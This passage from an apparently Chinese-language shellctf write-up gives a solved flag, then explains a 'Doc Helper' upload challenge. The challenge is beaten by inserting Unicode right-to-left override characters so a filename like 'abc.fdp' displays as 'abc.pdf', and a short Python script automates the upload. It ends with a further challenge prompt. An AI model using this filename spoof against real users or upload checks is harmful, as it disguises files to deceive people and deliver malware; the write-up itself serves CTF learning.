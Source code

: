 ![图 15](https://s2.loli.net/2022/08/14/Fsnl4br7R5Eu6WC.png)  

`shellctf{H0p3_4ny0N3_No7_n071c3_SiZe_D1fF3reNc3_apparent-size_ah}`

## Doc Helper

> Can you share portable document with us which looks like it when we seet portable document with eyes but ti's not actually portable document.
More a misc problem ...
My Favourite move is Inferno overwrite
<http://20.125.142.38:8508>
Alternate Link :- <http://20.193.247.209:8666/>
Hint --- Challenge is all about file extension of the file that you are uploading....
Hint1: Think from right to left
Hint2: Everything is just related to name and extension of file not content in file ...
Hint3: Give me file with name while when seen from eyes look like abc.pdf but its not actually pdf
Hint4: Make file name "abc.fdp" look "abc.pdf"

是一个上传文件的题目，要求上传文件的名字不为pdf,但是能让服务端解析为pdf就给flag。

实现的方法是用控制字符，将fdp从右往左解析为pdf。

![图 18](https://s2.loli.net/2022/08/14/PkvipSc85wgZaRj.png)  

添加`u'202e'`即可。
![图 19](https://s2.loli.net/2022/08/14/gTiejLnWBSxqGKk.png)  

```python
import requests

url = "http://20.193.247.209:8666"
pool = [u'\u200f', u'\u202b', u'\u202e', u'\u2067']
for f in pool:
    filename = "abc."+f+"fdp"
    files = {
        "file": (filename, "xxx", "application/pdf")
    }
    res = requests.post(url, files=files)
    print(filename, len(res.text))
    if len(res.text) != 1331:
        print("success", res.text)
```

## RAW Agent

>Day By Day Pollution is increasing, passing polluted environment and sum of all generation till now will take you to ultimate end.
Flag Format :- Enclose everything in shellctf{} Flag have two part :- shellctf{part1part2}
Part 1 start with :- U
Part 2 start with :- _p
Challenge url :- <http://20.125.142.38:8525/>
Alternate URL :- <http://20.193.247.209:8777/>
More Alternate URL :- <http://52.66.29.74:8888/>
